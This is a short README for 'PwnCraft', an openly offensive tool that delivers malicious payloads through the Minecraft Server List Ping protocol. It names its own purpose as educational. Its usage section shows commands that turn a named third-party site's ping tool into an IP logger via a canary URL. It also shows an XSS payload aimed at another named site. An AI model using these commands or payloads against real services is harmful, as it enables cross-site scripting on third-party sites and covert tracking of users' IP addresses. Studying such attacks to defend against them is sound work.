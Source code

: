 # PwnCraft 🏴‍☠️

A tool built to deliver malicious payloads through [Minecraft SLP protocol](https://wiki.vg/Server_List_Ping).
Made for educational purpose, for preventing people from getting attacked by this.

## Example usages

### Use https://crafty.gg as an IP logger

- `https://crafty.gg/tools/ping?ip=YOUR_IP&port=YOUR_PORT&platform=java`

- `./pwncraft localhost 1337 -f 'https://CANARY/'`

### XSS on https://minecraft-api.com

- `https://minecraft-api.com/api/ping/YOUR_IP/YOUR_PORT`

- `./pwncraft localhost 1337 -d '<script>alert("XSS !");</script>'`

## Credits

Varint implementation: https://github.com/jsvana/async-minecraft-ping/
